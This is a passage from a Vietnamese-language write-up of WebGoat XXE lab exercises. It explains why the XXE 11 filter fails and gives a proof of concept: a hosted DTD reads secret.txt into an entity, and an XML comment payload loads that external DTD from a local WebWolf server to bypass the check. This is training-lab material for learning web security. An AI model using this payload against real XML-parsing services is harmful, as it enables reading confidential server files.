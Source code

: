 - Send request và bypass

![image.png]((A5)%20XXE%2058277b7d0c6d4f15adfeb53b34cfb880/image%203.png)

## Cách khắc phục

- Như của XXE 4

# XXE 11

## Nguyên nhân lỗi

- Nguyên nhân chính dẫn đến lỗi vẫn như 2 lab trên, tuy nhiên ở lab này có thêm logic để không hiển thị nội dung file cần đọc nếu như phát hiện “**nội dung của file cần đọc có chứa nội dung của comment”**
- Chính việc so sánh này dẫn đến việc hacker có thể chèn thêm một nội dung trong payload tấn công XXE để nó không là chuỗi con của file cần đọc và có thể bypass được logic này.

```java
Comment comment = comments.parseXml(commentStr);
if (fileContentsForUser.contains(comment.getText())) {
  comment.setText("Nice try, you need to send the file to WebWolf");
}
comments.addComment(comment, false);
```

## POC

- Tạo một file DTD có nội dung bên dưới và upload lên WebWolf để host. DTD này có nhiệm vụ là sẽ đọc nội dung file secret.txt và lưu trữ vào entity secret.

![image.png]((A5)%20XXE%2058277b7d0c6d4f15adfeb53b34cfb880/image%204.png)

- Bắt Request và injection payload XXE như bên dưới

![image.png]((A5)%20XXE%2058277b7d0c6d4f15adfeb53b34cfb880/image%205.png)

- Entity blindxxe được sử dụng để inject dtd ở phía trên đang được host ở WebWolf - Chính là nội dung file cần đọc đã được lưu trong entity `secret` .
- Lúc này chỉ cần chèn thêm một chuỗi bất kỳ để nội dung được gửi đến server sẽ không là chuỗi con của nội dung file `secret.txt`.

```xml
<?xml version="1.0"?>
<!DOCTYPE xxe [
<!ENTITY % blindxxe SYSTEM "http://localhost:9090/WebWolf/files/shr3wd/test4.dtd">
%blindxxe;
]>
<comment><text>secret &secret;</text></comment>
```

- Gửi request và reload lại trang để đọc được nội dung của file trong phần comment.
